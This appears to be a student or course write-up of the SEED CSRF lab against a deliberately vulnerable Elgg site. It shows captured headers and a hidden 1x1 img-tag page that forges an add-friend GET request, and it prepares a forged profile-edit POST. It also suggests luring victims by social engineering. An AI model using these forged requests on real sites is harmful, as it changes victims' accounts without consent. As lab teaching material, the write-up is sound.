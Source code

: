 # Cross Site Request Forgery Lab

## Setup

Target Website: `www.seed-server.com`

Attacker: `www.attacker32.com`

Add the following to `/etc/hosts/`:

```Text
10.9.0.5    www.seed-server.com
10.9.0.105  www.attacker32.com
```

Navigate to CSRF Lab directory

- `dcbuild`
- `dcup`
- `dcdown`

## Attack on GET

**Goal**: Add yourself to the victim’s friend list without his/her consent. Get Alice to add Samy as a friend without her knowing.

### Investigation taken

- Creates an Elgg account using Charlie as the name.
  - Username: `Charlie`
  - Password: `seedcharlie`
  - Password Rule: `seed` + username
- In Charlie's account, he clicks add-friend button to add himself to Charlie's friend list.
- Using Firefox HTTP Headers live extension, he captures the `add-friend HTTP request`.

On Charlie's account:

- Navigate to Samy's profile and send Add Friend Request
- Use HTTP Header Live to capture the communication

### Captured Header

```Text
http://www.seed-server.com/action/friends/add?friend=59 (1)
&__elgg_ts=1667091629&__elgg_token=KTR8UDIBcXwD8GyOa3B1Vg&__ (2)
elgg_ts=1667091629&__elgg_token=KTR8UDIBcXwD8GyOa3B1Vg
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0)
Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy (3)
Cookie: Elgg=gh7f5e1strhg89dplma2sikaal
```

1. URL of Elgg’s add-friend request. UserID of the user to be added to the friend list is used. Here, Samy’s UserID (GUID) is 59.
2. Elgg’s countermeasure against CSRF attacks which are disabled.
3. Session cookie which is unique for each user. It is automatically sent by browser.

### Crafting the Malicious HTTP GET request

```HTML
<html>
    <body>
        <h1>This Page forges an HTTP GET request.</h1>

        <img src="http://www.csrflabelgg.com/action/friends/add?friend=42" alt="image" width="1" height="1" />
    </body>
</html>
```

1. The img tag will trigger an HTTP GET request. When browsers render a web page and sees an img tag, it sends an HTTP GET request to the URL specified in the src attribute.
2. The attacker use add-friend URL along with friend parameter. The size of the image is very small so that the victim is not suspicious.
3. You need to design your attack as part of your Lab 3. Go to the attacker folder inside the CSRFLab folder and edit the `addfriend.html` file accordingly what you learned in the line of the previous slide and the crafted line above. You can target Alice. You also need to find Alice GUID.

### Attract Victim to Visit Your Malicious Page

- Samy can use any social engineering technique to lure to Alice visit its malicious web page.
- If Alice clicks the link, Samy’s malicious web page will be loaded into Alice’s browser and a forged add-friend request will be sent to the Elgg server.
- On success, Samy will be added to Alice’s friend list.

## Attack on POST

**Goal**: Putting a statement “SAMY is MY HERO” in the victim’s profile without the consent from the victim.

### Investigation by the attacker Samy

- Samy captured an edit-profile request using LiveHTTPHeader extension.

### Attack on Elgg's Edit

To update the profile, a POST request is sent with the form details displayed. Strategy moving forward is to emulate the POST sent from the form.

### POST Capture

```Text
http://www.seed-server.com/action/profile/edit (1)
Host: www.seed-server.com (2)
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------24529425883703756564101934818
Content-Length: 3030
Origin: http://www.seed-server.com
Connection: keep-alive
Referer: http://www.seed-server.com/profile/charlie/edit
Cookie: Elgg=cm5rnpl0a04v16rib0d5vsuf0v
Upgrade-Insecure-Requests: 1
__elgg_token=qRvwchxgs48dAnJEAp3NiA&__elgg_ts=1667153814 (3)
&name=Charlie (4)
&description=<p>Testing the About me field</p>
&accesslevel[description]=2 (5)
&briefdescription=Testing Brief Descriton field
&accesslevel[briefdescription]=2 (5)
[Other fields that are not of interest]
&guid=58 (6)
```

1. URL of the edit-profile service.
2. Headers
3. CSRF countermeasures, which are disabled
4. Fields of Interest (NAME=VALUE)
5. Access level of each field : 2 means viewable by everyone
6. User Id (GUID) of the victim. This can be obtained by visiting victim’s profile page source, looking for the following: `Elgg.page_owner={“guid”:39,”type”:”user”,...}` Or by sending an `ADD-FRIEND` request and capturing the GUID in the request
